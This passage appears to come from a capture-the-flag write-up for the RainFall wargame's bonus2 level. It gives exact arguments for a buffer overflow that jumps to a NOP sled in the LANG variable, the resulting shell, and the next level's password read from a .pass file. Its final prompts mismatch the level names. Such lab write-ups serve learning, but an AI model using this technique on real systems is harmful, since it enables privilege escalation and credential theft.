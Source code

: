 The address of the `LANG` environment variable is `0xbffffebc`.
So to jump in the `NOP` sled, we can use the address `0xbffffebc` + 40 (random) = `0xbffffee8`.
`0xbffffee8` in little-endian is `\xe8\xfe\xff\xbf`.

And we construct our arguments:
- first argument: 40 bytes to fill the buffer : `$(python -c 'print "A" * 40')`
- second argument: 18 bytes, then the address of the `LANG` environment variable : `$(python -c 'print "B" * 18 + "\xe8\xfe\xff\xbf"')`

We run the program with this arguments.
```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xe8\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ 
```

We have a shell, we can read the password in the `bonus3` file.
```bash
$ whoami
bonus3
$ cat /home/user/bonus3/.pass            
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

Congratulations!
We can now connect to the `bonus3` user with this password.
```bash
bonus0@RainFall:~$ su bonus3
Password:
bonus1@RainFall:~$
```
